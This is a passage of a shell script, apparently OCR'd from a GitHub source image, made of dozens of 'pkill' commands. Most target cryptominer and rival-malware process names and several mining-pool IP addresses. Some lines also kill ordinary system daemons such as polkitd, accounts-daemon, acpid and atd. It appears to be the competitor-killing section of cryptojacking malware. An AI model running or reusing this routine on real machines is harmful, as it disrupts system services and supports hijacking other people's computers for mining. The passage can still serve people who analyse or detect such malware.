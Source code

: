 		pkill -9 ./kworker34
		pkill -9 ./kxjd
		pkill -9 ./lexarbalanc1
		pkill -9 ./lower.sh
		pkill -9 ./lowerv2.sh
		pkill -9 ./lowerv3.sh
		pkill -9 ./minerd
		pkill -9 ./minergate
		pkill -9 ./minergate-cli
		pkill -9 ./minexmr
		pkill -9 ./mixnerdx
		pkill -9 ./mule
		pkill -9 ./mutex
		pkill -9 ./myatd
		pkill -9 ./performedl
		pkill -9 ./polkitd
		pkill -9 ./pro.sh
		pkill -9 ./pubg
		pkill -9 ./pvv
		pkill -9 ./root.sh
		pkill -9 ./rootv2.sh
		pkill -9 ./rootv3.sh
		pkill -9 ./servcesa
		pkill -9 ./sleep
		pkill -9 ./sourplum
		pkill -9 ./stratum
		pkill -9 ./vsp
		pkill -9 ./watch-smart
		pkill -9 ./wget
		pkill -9 ./ysaydh
		pkill -9 ./acpid
		pkill  ./atd
		pkill  /tmp/wa/httpd.conf
		pkill  108.61.186.224
		pkill  128.199.86.57
		pkill  142.4.124.164
		pkill  192.99.56.117
		pkill  45.76.102.45
		pkill  ./AnXqV.yam
		pkill  ./BI5zj
		pkill  ./Carbon
		pkill  ./Duck.sh
		pkill  ./Guard.sh
		pkill  ./JnKihGjn
		pkill  ./KGlJwfWDbCPnvwEJupeivI1FXsSptuyh
		pkill  ./NXLAi
		pkill  ./XJnRj
		pkill  ./accounts-daemon
		pkill  ./askdljlqw
		pkill  ./atd
		pkill  ./bonn.sh
		pkill  ./bonns
		pkill  ./carbon
		pkill  ./conn.sh
		pkill  ./conns
		pkill  ./crypto-pool
		pkill  ./ddg
		pkill  ./donns
		pkill  ./gekoCrw
		pkill  ./gekoCrw32
		pkill  ./gekoba2anc1
		pkill  ./gekoba5xnc1
		pkill  ./gekobalanc1
		pkill  ./gekobalance